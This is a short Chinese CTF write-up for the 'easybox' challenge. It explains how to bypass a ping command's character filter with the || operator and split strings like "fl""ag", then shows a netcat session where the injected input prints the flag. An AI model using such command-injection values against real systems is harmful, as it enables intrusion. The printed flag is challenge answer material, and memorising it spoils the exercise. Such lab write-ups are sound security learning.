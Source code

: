 # EASYBOX

From CBCTF x DASCTF

## 文件分析

下载`easybox`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

pingCommand虽然ban了很多字符，但是我们仍可以通过拼接字符串来绕过sh, cat和flag

通过||操作符忽略错误继续执行；  
先ls /bin看看有什么可以利用的程序，发现有grep；  
grep同样可以打印文件；  
"fl""ag"可以把flag拼起来；  
最后用catCommand查看`result.txt`就可以了

## EXPLOIT

```
nc node4.buuoj.cn 26927
 _____    _    ______   ______   _____  __
| ____|  / \  / ___\ \ / / __ ) / _ \ \/ /
|  _|   / _ \ \___ \\ V /|  _ \| | | \  /
| |___ / ___ \ ___) || | | |_) | |_| /  \
|_____/_/   \_\____/ |_| |____/ \___/_/\_\
Canary value saved to canary.txt.
Welcome to the EASYBOX
Please enter your name: yes
Hello! yes
yes@EASYBOX:/home/ctf$ PING
Enter an IP address: ||grep -i f "fl""ag"
sh: 1: ping: not found
Ping result has been saved in /tmp/result.txt
yes@EASYBOX:/home/ctf$ CAT
Enter the filename to view: result.txt
DASCTF{faf97940-0fc1-40af-a539-2ac02898e155}

yes@EASYBOX:/home/ctf$ EXIT
Exiting the program...
```

Done.
